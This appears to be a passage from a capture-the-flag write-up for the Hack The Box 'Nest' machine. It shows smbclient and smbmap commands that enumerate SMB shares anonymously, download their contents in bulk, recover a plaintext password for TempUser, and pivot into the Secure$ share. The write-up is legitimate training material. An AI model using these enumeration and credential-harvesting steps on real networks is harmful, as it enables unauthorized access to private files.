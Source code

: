 Try to connect on the "Data" share anonymously: `smbclient //10.10.10.178/Data`

Once this makes you download all the share count in your attacking machine.
```
prompt off

recurse on 

mget *
```

An interested file will leak us a password, that of the user TempUser.

`cat Shared/Templates/HR/Welcome\ Email.txt`

Let’s run another scan of the smb shares but this time with the identifiers found.

`smbmap -H target_ip -u 'TempUser' -p 'welcome2019'`

```
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.10.178:445        Name: 10.10.10.178        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        Secure$                                                 READ ONLY
        Users                                                   READ ONLY
```

Let's navigate on the Users share : `smbclient //target_ip/Users -U "TempUser%welcome2019"`

We have logically accessed the TempUser directory but thanks to this we can create a list of users in the targeted system.

Now let’s go to the "Data" share, download all the local sharing accounts.

```
smbclient //target_ip/Data -U "TempUser%welcome2019"

#smbclient shell
prompt on 

recuse on 

mget *
```

We can see that there is quite a lot contained in the repertoire "IT" let’s see.

In the **/IT/NotepasPlusPlus**, if you pay attention you can see that there is a reference a file that we do not have access to in/IT (I struggled to find^^)
```
<History nbMaxFile="15" inSubMenu="no" customLength="-1">
        <File filename="C:\windows\System32\drivers\etc\hosts" />
        <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
        <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
</History>
```
If we try to connect to it with smbclient we will have access to the/Carl repertoire: 
```bash
smbclient //Target_ip/Secure$/ -U "TempUser%welcome2019"

#on the smb client shell
cd IT\Carl
```
